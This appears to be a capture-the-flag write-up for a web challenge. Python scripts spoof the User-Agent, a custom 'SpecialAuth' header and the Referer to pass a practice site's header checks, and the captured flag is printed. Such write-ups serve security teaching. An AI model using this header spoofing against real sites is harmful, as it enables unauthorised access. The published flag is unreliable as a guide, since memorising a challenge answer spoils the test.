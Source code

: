 **Challenge**  
**Solution**  

When we go to the website we get the following message:

```
Error: Unauthorized browser Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) 
Ubuntu Chromium/48.0.2564.82 Chrome/48.0.2564.82 Safari/537.36 detected. 
Only users of "Google Ultron" may access this page.
```

So we get the page from python and set our agent to `Google Ultron`

```python
import requests

url="http://web.lasactf.com:45025/"
headers = {'user-agent': 'Google Ultron'}

r=requests.get(url,headers=headers)
print r.text
```

which outputs:
 
```
<h1>Error: "SpecialAuth" header not set to my name </h1>
```

So we set SpecialAuth header to `Kyle` and get the following response:

```
<h1>Error: This site must be accessed from "kyleisacoolguy.org"</h1>
```

so we set the referer: 

```python
import requests

url="http://web.lasactf.com:45025/"
headers = {'user-agent': 'Google Ultron', 'SpecialAuth':'Kyle', 'referer':'kyleisacoolguy.org'}

r=requests.get(url,headers=headers)
print r.text
```

and get the flag:

```
<h1>Sucesfully Authenticated! Your flag is:lasactf{h3aders_ar3_c00l}</h1>
```

**Flag**  

```
lasactf{h3aders_ar3_c00l}
```


## Challenge 1: Helpful  
